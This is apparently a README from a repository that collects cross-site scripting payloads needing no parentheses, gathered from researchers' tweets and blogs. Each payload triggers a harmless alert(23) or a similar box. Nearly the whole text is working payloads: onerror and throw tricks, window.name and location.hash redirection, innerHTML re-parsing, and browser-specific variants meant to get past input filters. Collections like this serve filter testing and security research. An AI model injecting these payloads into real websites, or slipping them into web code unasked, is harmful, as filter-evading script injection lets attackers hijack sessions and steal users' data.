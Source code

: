 # XSS Without parentheses () 


### This repo contains XSS payload that doesn't require parentheses, collected from tweets, blogs...
### All the POC's are alert box with number 23

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```


---
[Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=alert;throw 23;

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---
[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----
[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]

---
Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x=/-alert(1)/.source]]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]=/=alert(2)/.source,location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert(3)'instanceof[]

</script>

<script>

// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert(4)//']

</script>

<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert(5)//',lol

</script>
```

---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)

```
document.body.innerText="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
document.body.innerHTML=document.body.innerText;
```
    
---
[Renwa](https://twitter.com/RenwaX23)

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---


___
### Anything: @[RenwaX23](https://twitter.com/RenwaX23)

